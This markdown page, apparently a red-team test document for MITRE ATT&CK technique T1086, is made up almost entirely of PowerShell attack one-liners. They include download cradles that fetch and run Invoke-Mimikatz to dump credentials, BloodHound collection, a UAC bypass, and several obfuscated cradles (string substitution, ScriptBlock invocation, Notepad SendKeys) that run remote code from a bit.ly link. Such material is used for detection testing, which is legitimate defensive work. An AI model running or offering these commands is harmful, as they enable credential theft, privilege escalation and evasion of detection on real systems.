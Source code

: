# PowerShell

## MITRE ATT&CK Technique:
[T1086](https://attack.mitre.org/wiki/Technique/T1086)

### Download Mimikatz and Dump credentials

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

### Download and Execute BloodHound

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/BloodHound_Old.ps1'); Get-BloodHoundData"

### Download Mimikatz and Dump credentials

#### Just download it:

    (New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');IEX((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_})))

#### Minor obfuscation:

    (New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');[ScriptBlock]::Create((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_}))).InvokeReturnAsIs()

#### All obfuscation:

    Set-Variable HJ1 'http://bit.ly/L3g1tCrad1e';SI Variable:/0W 'Net.WebClient';Set-Item Variable:\gH 'Default_File_Path.ps1';ls _-*;Set-Variable igZ (.$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand.PsObject.Methods|?{$_.Name-like'*Cm*t'}).Name).Invoke($ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand|GM|?{$_.Name-like'*om*e'}).Name).Invoke('*w-*ct',$TRUE,1))(Get-ChildItem Variable:0W).Value);Set-Variable J ((((Get-Variable igZ -ValueOn)|GM)|?{$_.Name-like'*w*i*le'}).Name);(Get-Variable igZ -ValueOn).((ChildItem Variable:J).Value).Invoke((Get-Item Variable:/HJ1).Value,(GV gH).Value);&( ''.IsNormalized.ToString()[13,15,48]-Join'')(-Join([Char[]](CAT -Enco 3 (GV gH).Value)))

#### Mimikatz - Cradlecraft PsSendKeys

    $url='https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1';$wshell=New-Object -ComObject WScript.Shell;$reg='HKCU:\Software\Microsoft\Notepad';$app='Notepad';$props=(Get-ItemProperty $reg);[Void][System.Reflection.Assembly]::LoadWithPartialName('System.Windows.Forms');@(@('iWindowPosY',([String]([System.Windows.Forms.Screen]::AllScreens)).Split('}')[0].Split('=')[5]),@('StatusBar',0))|ForEach{SP $reg (Item Variable:_).Value[0] (Variable _).Value[1]};$curpid=$wshell.Exec($app).ProcessID;While(!($title=GPS|?{(Item Variable:_).Value.id-ieq$curpid}|ForEach{(Variable _).Value.MainWindowTitle})){Start-Sleep -Milliseconds 500};While(!$wshell.AppActivate($title)){Start-Sleep -Milliseconds 500};$wshell.SendKeys('^o');Start-Sleep -Milliseconds 500;@($url,(' '*1000),'~')|ForEach{$wshell.SendKeys((Variable _).Value)};$res=$Null;While($res.Length -lt 2){[Windows.Forms.Clipboard]::Clear();@('^a','^c')|ForEach{$wshell.SendKeys((Item Variable:_).Value)};Start-Sleep -Milliseconds 500;$res=([Windows.Forms.Clipboard]::GetText())};[Windows.Forms.Clipboard]::Clear();@('%f','x')|ForEach{$wshell.SendKeys((Variable _).Value)};If(GPS|?{(Item Variable:_).Value.id-ieq$curpid}){@('{TAB}','~')|ForEach{$wshell.SendKeys((Item Variable:_).Value)}};@('iWindowPosDY','iWindowPosDX','iWindowPosY','iWindowPosX','StatusBar')|ForEach{SP $reg (Item Variable:_).Value $props.((Variable _).Value)};IEX($res);invoke-mimikatz -dumpcr

### Invoke-AppPathBypass

Note: Windows 10 only

#### Bypass is based on: https://enigma0x3.net/2017/03/14/bypassing-uac-using-app-paths/

    Powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/enigma0x3/Misc-PowerShell-Stuff/master/Invoke-AppPathBypass.ps1'); Invoke-AppPathBypass"

#### At prompt, to test:

    C:\Windows\System32\cmd.exe

### Obfuscated Powershell

#### Fancy obfuscation that reaches out to bit.ly/L3g1t to stdout: "SUCCESSFULLY EXECUTED POWERSHELL CODE FROM REMOTE LOCATION"

    cmd /c "set apple=fish (cars help://bit.ly/L3g1t).content&&cmd /c set boat=%apple:fish=iex% ^&^&cmd /c set ab=%boat:cars=iwr% ^^^&^^^&cmd /c echo %ab:el=tt%|%ProgramData:~3,1%%ProgramData:~5,1%we%ProgramData:~7,1%she%Public:~12,1%%Public:~12,1% -"

#### Second test:

    cmd /c "set apple=fish (cars ('http://bit.ly/L3g1tCrad1e).content&&cmd /c set boat=%apple:fish=iex% ^&^&cmd /c set ab=%boat:cars=iwr% ^^^&^^^&cmd /c echo %ab:el=tt%|%ProgramData:~3,1%%ProgramData:~5,1%we%ProgramData:~7,1%she%Public:~12,1%%Public:~12,1% -"

## Powershell Obfuscation

Provided by @danielbohannon

[Out-FINcodedCommand](https://github.com/danielbohannon/Out-FINcodedCommand/blob/master/README.md)


### Setup:

    Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/danielbohannon/Out-FINcodedCommand/master/Out-FINcodedCommand.ps1')

### Input:

    Out-FINcodedCommand -command "iex (iwr http://bit.ly/L3g1t).content" -FinalBinary powershell

Follow prompts to create variables.

### Output:

    cmd /c "set apple=fish (cars help://bit.ly/L3g1t).content&&cmd /c set boat=%apple:fish=iex% ^&^&cmd /c set ab=%boat:cars=iwr% ^^^&^^^&cmd /c echo %ab:el=tt%|%ProgramData:~3,1%%ProgramData:~5,1%we%ProgramData:~7,1%she%Public:~12,1%%Public:~12,1% -"
